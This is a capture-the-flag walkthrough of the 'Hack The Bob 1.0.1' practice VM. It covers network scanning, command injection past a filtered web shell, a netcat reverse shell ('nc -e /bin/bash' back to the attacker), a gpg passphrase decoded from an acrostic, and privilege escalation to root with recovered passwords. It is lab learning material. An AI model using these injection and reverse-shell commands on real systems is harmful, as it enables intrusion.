







<style> 
    body { 
        background-color: white; 
        color: black;
        margin-top: 2.5cm;
        margin-left: 1.5cm;
        margin-right: 1.5cm;
    }
</style>

# Hack The Bob: 1.0.1

- [**Discovery**](disco) &rightarrow; network scanning and services enumeration
- [**Initial Access**](ini) &rightarrow; expoit RCE vulnerability on web application
- [**Execution**](exe) &rightarrow; establish reverse shell with netcat
- [**Credential Access**](cre) &rightarrow; use of unsecured credentials
- [**Privilege Escalation**](pri) &rightarrow; abuse of valid accounts with root privileges
- [**Persistence**](per)

The aim of this demo is to gain root priviledges on a web server in order to capture flag. The "[Hack The Bob: 1.0.1](https://www.hackingarticles.in/hack-the-bob-1-0-1-vm-ctf-challenge/)" walkthorugh is the baseline of this report.


The initial step is aimed to scan the local network in order to look for the IP address of the target machine. This step is taken running the following command 

```bash
netdiscover -r 10.0.2.0/24
```

Then the command

```bash
nmap -p- -A 10.0.2.10 
```
was performed in order to have a pretty accurate enumeration of the servers, on which port numbers and with which protocols were running on target 


The result of ```nmap``` command is shown in the following screenshot




Notable things:
- there is a web server reachable via HTTP on port 80 
- there is an SSH server listening on port 25468

For comodità this IP was added to the file `/etc/hosts` on the Kali machine ad linked to the name "hackthebob"

From a first occhiata `http://hackthebob/` seams to be the web site of an high school in allestimento. Looking around in the site there weren't interesting pages. 


Analyzing better the nmap output it is possible to see that the web server has a textual file named `robot.txt` containging pages that are not showed by the browser.

Only the page `http://hackthebob/dev_shell.php` has interesting content: it seam to be a web shell, so the first thing done is to try some bash commands to see how the server reacts.

It seams that the is some interal block or filer, in fact commands such as `ls` or `pwd` didn't work, the output tells to "go away", but then another strategy is used beacuse the command `id` seams not to be blocked and returns output.

So runnging `id | ls ` it became possible to list files.




Now downloading with `curl` command `dev_shell.txt.bak` file, that is backup file of `de_shell.php`, it is possible to see the reason why the other commands disn't work



It is time now to establish a netcat connection thorugh the web shell and the Kali machine. This is done using netcat 

- on Kali side the command 
``` nc -lvp 6000``` was runned, so the Kali machine is now listening on port 6000 for connection requests
- on the web interface of the target the command `id | nc -e /bin/bash 10.0.2.6 6000` was runned 

In order to spawn a better shell on kali terminal the command 

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```
was used. The current account is `www-data`.

Moving to the root directory of the file system and listing files it is possible to see the `flag.txt` file. 
Running `ls -l` shows that in order to open `flag.txt` it needs to be root account because it is the legitimate owner.

In the `/home` directory there are four other directories with person names. In the first one, on path `/home/bob/Documents` there are a gpg file `login.txt.gpg` and another directory "Secret".

On path `/home/bob/Documents/Secret/Keep_Out/No_Lookie_In_Here` there is a script `notes.sh`: executing it the output is a list of apparently no sense phrases 


```
Harry Potter is my favourite
Are you real me?
Right, I’m ordering pizza this is going nowhere
People just don’t get me
Ohhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh <sea santy here>
Cucumber
Rest now your eyes are sleepy
Are you gonna stop reading this yet?
Time to fix the server
Everyone is annoying
Sticky notes gotta buy em
```


This output seams to have no meaning, but taking the first letter of each line the word HARPOCRATES is composed (this is the name of an egyptian divinity), maybe it is the passphrase for the gpg file.

Now it's needed to change account in order to decypt the gpg file 

In `/home/elliot` there is a file `theadminisdumb.txt` that contains a long text with embedded to user's password. 
Account elliot has password "theadminisdumb" while account jc has password Qwerty

With command `su elliot` and typeing his password the current account change to elliot: he has permission for decrypting the gpg


```bash
gpg --batch –passphrase HARPOCRATES -d login.txt.gpg
```

is the command for the decryption. Having the file in clear it is possible to read bob's password which is "b0bcat_"



Now it is possible to change account again and impersonate bob. Salta fuori that Bob is a superuser with root privileges

Important to notice that Bob is not the owner of the file flag.txt, so it is not possible yet to capture the flag, but since bob is a superuser, running just `sudo su` it is possible to became root account, caputure the flag and conclude the challenge.



A large set of credentials assure persistence over this web server, but it is also notable, from the utput of nmap command, that there is another server running on the machine

I tryed to connect with hackthebob on bob account via SSH
`ssh -p 25468 bob@hackthebob` and I realised that with just this command i was inside the web seerver 
i didn't have to interrract via browser



